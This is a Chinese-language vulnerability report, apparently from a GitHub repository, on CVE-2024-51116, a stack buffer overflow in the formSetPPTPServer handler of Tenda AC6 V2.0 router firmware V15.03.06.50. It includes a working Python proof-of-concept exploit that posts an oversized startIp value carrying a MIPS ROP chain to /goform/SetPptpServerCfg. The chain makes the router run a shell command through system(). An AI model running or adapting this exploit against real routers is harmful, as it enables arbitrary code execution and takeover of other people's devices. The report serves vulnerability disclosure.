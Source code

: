 # tenda AC6V2.0 缓冲区溢出漏洞报告 
# CVE-2024-51116

## 漏洞描述  

在 tenda AC6V2.0 的 `formSetPPTPServer` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

满足一定条件后，参数startIp的值将被通过sscanf复制给栈上变量，导致溢出

<img width="470" alt="{BE84087B-29EB-4534-98CF-CBCF2295D90A}" src="https://github.com/user-attachments/assets/8d81d844-7511-4325-ab77-3e625f902f78">



## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_startIp():
	url = f"http://{target_ip}/goform/SetPptpServerCfg" 
	payload = b'a'*0x170+rop+b'.0.0.0'	
	data = {"serverEn": "1",
		"startIp": payload,
		"endIp": "a"
	}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_startIp()
